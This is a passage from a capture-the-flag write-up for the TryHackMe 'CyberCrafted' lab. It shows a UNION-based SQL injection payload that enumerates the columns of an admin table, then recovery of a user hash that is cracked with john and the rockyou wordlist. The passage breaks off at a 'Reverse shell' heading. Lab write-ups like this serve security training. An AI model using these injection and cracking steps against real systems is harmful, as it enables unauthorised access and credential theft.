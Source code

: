 I modify the query to retrieve the column_names from 3 tables which seem interested: **user** (mysql), **users** (performance_schema) and **admin** (webapp). Then only the **admin** table has the sensitive information of the user:

```
'UNION SELECT NULL,table_name,column_name,NULL FROM information_schema.columns WHERE table_name="admin"#
```

![Untitled](/assets/CyberCrafted%20images/Untitled%2015.png)

Then I query the **user** and the **hash** and get these:

![Untitled](/assets/CyberCrafted%20images/Untitled%2016.png)

I submit the **web_flag** and then save the creds I found. Using **john** to crack the hash and get the plaintext password:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ nano hash_creds

┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ john -w=~/Wordlists/rockyou.txt hash_creds
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
[...]
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED] ([REDACTED])
1g 0:00:00:00 DONE (2023-09-29 11:38) 1.234g/s 10663Kp/s 10663Kc/s 10663KC/s diamond125..diamond123123
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

### Reverse shell
